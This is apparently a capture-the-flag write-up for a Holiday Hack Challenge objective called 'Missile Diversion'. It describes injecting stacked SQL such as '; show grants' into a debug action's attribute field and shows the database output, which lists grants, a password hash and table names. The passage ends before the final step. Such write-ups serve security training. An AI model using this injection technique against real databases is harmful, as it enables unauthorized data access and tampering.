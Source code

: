 # Objective 22: Missile Diversion
**Location: Space Island: Zenith SGS**

For this objective the same Docker image and Wireguard VPN connection as in [Objective 21](https://github.com/joergschwarzwaelder/hhc2023/tree/main/Objective-21).
The aim is to change the pointing mode from 0 ("Earth Point Mode") to 1 ("Sun Point Mode").

In the first step, the app "missile-targeting-system" is started just like the "camera" app in objective 21.

The "Action Service" of this app has the predefined action "Debug", which is vulnerable to SQL injections by supplying additional data like `; show grants` as "AttributeValue".
The output of these injections can be found on the "nanosat-mo-supervisor" tab, subtab "Apps Launcher service":
```
INFO: Debug action output: VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204 | 
Grants for targeter@%: GRANT USAGE ON *.* TO `targeter`@`%` IDENTIFIED BY PASSWORD '*41E2CFE844C8F1F375D5704992440920F11A11BA' | 
Grants for targeter@%: GRANT SELECT, INSERT ON `missile_targeting_system`.`satellite_query` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`messaging` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`target_coordinates` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode_to_str` TO `targeter`@`%` | 
```




**Achievement: Ipsum**
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE2NTY2MzcxMTksLTQ2NjI0MjMyMSwtMj
AxMDE5MjYzXX0=
-->